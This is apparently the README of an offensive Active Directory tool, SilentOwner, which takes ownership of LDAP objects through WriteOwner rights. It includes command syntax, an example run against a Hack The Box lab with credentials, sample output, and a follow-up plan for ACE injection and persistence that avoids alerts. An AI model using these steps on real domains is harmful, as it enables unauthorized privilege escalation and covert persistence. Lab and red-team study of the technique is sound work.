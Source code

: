 # 🛡️ SilentOwner — Replace LDAP OwnerSID via WriteOwner without touching ACEs  
🧬 Built for post-exploitation, stealth privilege escalation, and AD persistence

**SilentOwner** is a stealthy LDAP post-exploitation tool that lets you **change the OwnerSID** of any Active Directory object — such as a user or group — when your account holds **WriteOwner** permissions.

It operates entirely over LDAP using the correct `SDFlags` control to modify the `nTSecurityDescriptor` attribute.  
This enables you to **silently assume ownership**, gain **implicit control**, and prepare **privilege escalation paths** — without needing a shell or triggering alerts.

---

## 🔧 Requirements

- Python 3.10+
- [`ldap3`](https://pypi.org/project/ldap3/)
- [`impacket`](https://github.com/SecureAuthCorp/impacket)

Install with:

```bash
pip install -r requirements.txt
```

---

## 🚀 Basic Syntax

```bash
python3 SilentOwner.py \
  --dc-ip <DC_IP> \
  -u <USERNAME> \
  -p '<PASSWORD>' \
  --domain <DOMAIN> \
  --target-dn '<DISTINGUISHED_NAME>' \
  --new-owner-sid '<NEW_OWNER_SID>'
```

- `--target-dn`: Full DN of the target object (e.g., group, user)  
- `--new-owner-sid`: SID to assign as new owner (usually your own)

<details>
<summary>📦 Certified (HTB)<Windows>

```bash
python3 SilentOwner.py \
  --dc-ip 10.129.128.69 \
  -u judith.mader@certified.htb \
  -p 'judith09' \
  --domain certified.htb \
  --target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' \
  --new-owner-sid 'S-1-5-21-729746778-2675978091-3820388244-1103'
```
</details>

---

## 📤 Example Output

```text
🛡️ SilentOwner is live — scanning for target object ownership...

[+] LDAP bind successful.
[DEBUG] Raw sd['OwnerSid']: b'\x01\x00\x00\x8c\x14\x00\x00\x00\x00\x00\x0'
[+] Current owner: S-1-5-21-729746778-2675978091-3820388244-1103
[+] Replacing owner with: S-1-5-21-729746778-2675978091-3820388244-1103
[✅] Ownership of CN=Management,CN=Users,DC=certified,DC=htb successfully changed to S-1-5-21-729746778-2675978091-3820388244-1103
```

---

## 🧩 Usage Strategy

SilentOwner is most effective when combined with tools like:

### 🔍 Certipy-ACL
- Use `certipy acl` to discover objects where your user has **WriteOwner**
- Filter by your own SID to isolate takeover targets

### 🧠 SID Mapping
- Extract SIDs from LDAP using `ldapsearch` or custom tools
- Use your user SID as the new owner in takeover

### ⚙️ Post-Takeover
- After becoming owner, you can inject ACEs (e.g., `GenericAll`, `WriteDACL`) using other tools
- Consider persistence strategies that don’t trigger alerts

🧬 *SilentOwner is for the stealthy step — not for noisy privilege assignments. Combine it with follow-up tools.*

---

## ⚠️ Warning

Replacing the OwnerSID of LDAP objects is a powerful action.  
Done incorrectly, it can:

- Break delegation chains
- Affect replication metadata
- Leave subtle traces for defenders

Always test in a lab before using in real-world scenarios.

---

## 📄 License

MIT License

SilentOwner is based on live LDAP modification techniques, using `ldap3` and `impacket` to operate without touching ACEs.  
Authored with ❤️ by [xploitnik](https://github.com/xploitnik).




